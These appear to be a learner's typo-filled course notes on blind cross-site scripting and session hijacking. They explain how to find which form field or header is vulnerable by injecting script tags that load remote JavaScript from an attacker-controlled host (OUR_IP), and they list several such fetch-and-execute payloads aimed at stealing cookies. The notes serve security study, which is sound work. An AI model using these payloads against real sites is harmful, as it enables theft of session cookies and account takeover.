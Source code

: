 ## Session Hijacking:
Modern web app utilize cookies to maintain a user session thorught diff browsing sessions. This enable the uset to only log in once an keep thir logged-in session alive even if they visit the same wb at another time or date.
With the ability to execute JS code on th victim's browser we may be able to collecxt their cookies and send them to our sercer hijack their logged-in session by performing
a Session Hijacking and Cookie Stealing attack.

- Blind XSS Detection:
We usually start XSS attacks by trying to discover if and where an XSS vulnerability exists. We wll be dealin with blind XSS vulnerability. A Blind XSS vulnerbility occurs when the vulnerability is triggered on a page we dont have access to.
Some potential example:
    - Contact Forms
    - Reviews
    - User Datails
    - Support Tickets
    - HTTP User-agent header

Indicates that we'll not see how our input will be handled or how it will look in the browser since it will appear for the Admin only in certain Admin Panel that we do not have access to.
In normal cases, we can test each field until we get an alert box. We've been doing throughout the module. AS we do not have access over the Admin panel in this case, how would we be able to detect an XSS vulnerability
if we cannot see how the output is handle.

We can use the same trick that we used in the previus sectgion.
1. How can we know which specif field is vulnerable? Since any fields may execute our code, we cant know which of them did.
2. How can we know what XSS payload to use?

- Loading a remote script:
We can write Js code within the [<script>] tags, but can also include a remote script by providing it URL:
```html
<script src ="http://IP/scritp.js></script>"
```
We can use this tp execute remote JS file that is serverd on our VM. We can change the requested script name from script.js to the name of the field we are injecting.
```html
<script src ="http://IP/username></script>"
```
IF we get request for /username , them we know that the username field is vulnerable to XSS. We can start testing various XSS payloads that load a remote script and see which of them sends us a request.

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
Various payloads start with an injection like >, which may or not may work depending on how our input handled the backend.
AS previus mentioned in the XSS Discovery section, if we access top the source code it would be possible to precisely write the required payload for a successful injection.
